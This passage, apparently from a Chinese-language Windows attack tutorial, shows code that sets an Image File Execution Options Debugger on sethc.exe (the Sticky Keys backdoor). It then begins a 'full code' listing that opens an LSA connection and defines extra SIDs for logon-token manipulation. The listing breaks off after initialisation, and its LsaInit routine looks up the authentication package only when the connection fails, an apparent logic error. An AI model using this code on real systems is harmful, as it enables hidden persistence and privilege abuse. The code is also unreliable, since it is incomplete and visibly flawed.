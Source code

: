 ```c++
	wprintf(L"[*] Set Image File Execution Options for sethc.exe successfully with Debugger as %ws.\n", lpCommand);

	return;
}
```

### Full Code

最终的完整代码如下所示。

```c++
#include <Windows.h>
#include <winternl.h>
#define _NTDEF_ 
#include <NTSecAPI.h>
#include <iostream>
#include <stdio.h>
#include <stdlib.h>
#include <sddl.h>

#pragma comment(lib, "Secur32.lib")

#define SIZE 200000

#if !defined(NT_SUCCESS)
#define NT_SUCCESS(Status) ((NTSTATUS)(Status) >= 0)
#endif

#ifdef __cplusplus
extern "C" VOID WINAPI RtlInitUnicodeString(OUT PUNICODE_STRING DestinationString, IN PCWSTR SourceString);
#endif

#define STATUS_SUCCESS           0
#define EXTRA_SID_COUNT          2

LSA_STRING MSV1_0_PackageName = { 37, 38, (PCHAR)MSV1_0_PACKAGE_NAME };
ULONG	ulAuthenticationPackage = 0;
BOOL	isAuthPackageKerberos = FALSE;
HANDLE	hLSA = NULL;

NTSTATUS LsaClean()
{
	return LsaDeregisterLogonProcess(hLSA);
}


NTSTATUS LsaInit()
{
	NTSTATUS status = 0;
	// Open LSA policy handle
	status = LsaConnectUntrusted(&hLSA);
	if (status != STATUS_SUCCESS)
	{
		// Lookup authentication package ID
		status = LsaLookupAuthenticationPackage(hLSA, &MSV1_0_PackageName, &ulAuthenticationPackage);
		isAuthPackageKerberos = NT_SUCCESS(status);
	}
	return status;
}


```